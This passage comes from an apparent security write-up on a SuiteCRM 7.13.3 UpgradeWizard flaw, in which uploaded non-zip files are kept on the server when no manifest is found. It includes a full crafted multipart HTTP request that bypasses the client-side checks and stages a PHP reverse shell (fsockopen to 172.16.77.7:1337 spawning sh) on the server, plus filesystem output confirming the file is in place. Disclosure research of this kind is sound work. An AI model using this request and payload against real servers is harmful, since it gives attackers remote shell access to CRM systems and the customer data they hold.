 We can review the git history for the project and see that this behavior was introduced in (https://github.com/salesagility/SuiteCRM/commit/c26db73500ad92f044449644f1a15b52d3483ac2) and was specifically implemented as a fix to these issues (https://github.com/salesagility/SuiteCRM/issues/8261) (https://github.com/salesagility/SuiteCRM/issues/7242)

After this analysis, we can conclude that the application will retain any file we upload via the UpgradeWizard as long as it fails to find a valid manifest file. Additionally, there is insufficient validation to ensure that the file we upload is actually a compressed archive on the server-side. With this information, we can craft a request to upload a non-zip file containing a malicious payload to the server. Since we will make this request outside of the browser - we can bypass the client-side validation and we will bypass the first request to UploadFileCheck as that requirement is again only imposed by us on the client-side.

We modify the filename value for upgrade_zip to `evilFile`. This will be name of the file that will be staged on the filesystem in the upload:// directory. Next, we modify the content of what would be the zip file data to instead include a PHP reverse shell back to us.
```HTTP
POST /SuiteCRM-7.13.3/index.php HTTP/1.1

------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="module"

UpgradeWizard
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="action"

index
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="step"

2
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="run"

upload
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="upgrade_zip"; filename="evilFile"
Content-Type: application/zip

<?php $sock=fsockopen("172.16.77.7",1337);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="upgrade_zip_escaped"

C%3A%5Cfakepath%5Cevil.zip
------WebKitFormBoundary9VoKZp0SUAVBNYA5--

```

After sending the request, we can check the filesystem and see that our malicious file has been successfully staged at a known location on the filesystem.
```
-rw-r--r--  1 www-data www-data  113 Aug  6 22:30 evilFile

cat upload/evilFile 
<?php\n$sock=fsockopen("172.16.77.7",1337);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);\n?>
```
